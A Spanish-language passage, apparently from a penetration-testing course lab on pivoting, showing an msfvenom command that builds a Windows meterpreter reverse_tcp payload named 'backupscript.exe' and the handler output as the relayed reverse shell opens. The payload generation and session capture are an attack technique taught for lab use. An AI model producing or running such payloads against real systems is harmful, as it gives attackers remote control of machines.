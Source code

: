 Ahora podemos crear una carga útil de Shell Inverse que devuelva una conexión a nuestro servidor Ubuntu en`172.16.5.129`:`1234`Cuando se ejecuta en nuestro host de Windows. Una vez que nuestro servidor Ubuntu reciba esta conexión, se reenviará a`attack host's ip`:`8081`que configuramos.

### **Generando la carga útil de Windows**

Túnel de meterpreter y reenvío de puertos

```
xnoxos@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe

```

Finalmente, si ejecutamos nuestra carga útil en el host de Windows, deberíamos poder recibir un shell de Windows girado a través del servidor Ubuntu.

### **Establecer la sesión de meterpreter**

Túnel de meterpreter y reenvío de puertos

```
[*] Started reverse TCP handler on 0.0.0.0:8081
[*] Sending stage (200262 bytes) to 10.10.14.18
[*] Meterpreter session 2 opened (10.10.14.18:8081 -> 10.10.14.18:40173 ) at 2022-03-04 15:26:14 -0500

meterpreter > shell
Process 2336 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>

```

---

Nota: Al generar su objetivo, le pedimos que espere de 3 a 5 minutos hasta que todo el laboratorio con todas las configuraciones esté configurada para que la conexión a su objetivo funcione sin problemas.